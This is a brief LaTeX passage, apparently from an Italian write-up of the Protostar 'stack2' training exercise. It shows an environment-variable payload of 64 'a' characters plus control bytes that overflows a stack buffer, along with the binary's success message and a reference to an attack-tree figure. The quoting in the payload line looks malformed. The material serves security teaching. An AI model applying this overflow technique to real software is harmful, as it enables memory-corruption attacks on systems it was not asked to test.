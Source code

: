\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$  export GREENIE='python -c 'print "a" * 64'' + "\x0a\x0d\x0a\x0d"'' 
$ /opt/protostar/bin/stack2
you have correctly modified the variable
\end{lstlisting}
\end{mdframed}
L'albero di attacco è molto semplice:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.5.png}
\end{figure}
\FloatBarrier

